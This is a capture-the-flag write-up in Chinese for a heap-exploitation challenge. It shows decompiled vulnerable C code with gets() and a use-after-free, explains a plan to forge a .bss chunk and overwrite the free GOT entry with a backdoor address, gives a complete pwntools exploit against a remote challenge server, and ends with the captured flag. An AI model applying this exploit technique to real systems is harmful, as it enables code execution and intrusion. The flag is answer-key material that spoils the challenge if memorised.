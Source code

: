 ```c
    dword_6020A4 = 1;
    puts("Done.");
  }
  return 0LL;
}
```
观察malloc大小，需要在内存中寻找0x71~0x7f的size，
```c
__int64 create()
{
  __int64 v1; // [rsp-38h] [rbp-38h]
  unsigned __int64 v2; // [rsp-10h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  buf = (char *)malloc(0x68uLL);
  qword_6020F0 = (__int64)malloc(0x10uLL);
  dword_6020A4 = 0;
  puts("Give me your formula:");
  gets(&v1);
  strncpy(buf, (const char *)&v1, 0x28uLL);
  puts("This is your pill");
  puts(buf);
  return 0LL;
}
```
整个exp分三步，先利用uaf 伪造在`bss段`的chunk,再修改buf的地址到got表，最后将`got['free']`改为后门地址。
```py
from pwn import *
context.log_level='debug'
context.terminal=['bash']
#p=process('./vitamin')
p=remote('159.65.68.241', 10001)
def debug(addr = '0x400BC7'):
    gdb.attach(proc.pidof(p)[0]+1, "b *" + addr)
    raw_input('debug:')

def create(formula):
    p.recvuntil(':\n')
    p.sendline('1')
    p.recvuntil(':\n')
    p.sendline(formula)

def change(formula):
    p.recvuntil(':\n')
    p.sendline('3')
    p.recvuntil(':\n')
    p.sendline(formula)

def take():
    p.recvuntil(':\n')
    p.sendline('2')
#debug()

free_got=0x602018
create('windforce')
take()
change(p64(0x6020dd))
create(p64(0x6020dd))
create('A'*11+p64(free_got))
change(p64(0x400d58))
p.sendline('2')
p.interactive()
```
flag{b49b2c44-35a1-4be5-9dfa-c173f20e60ee}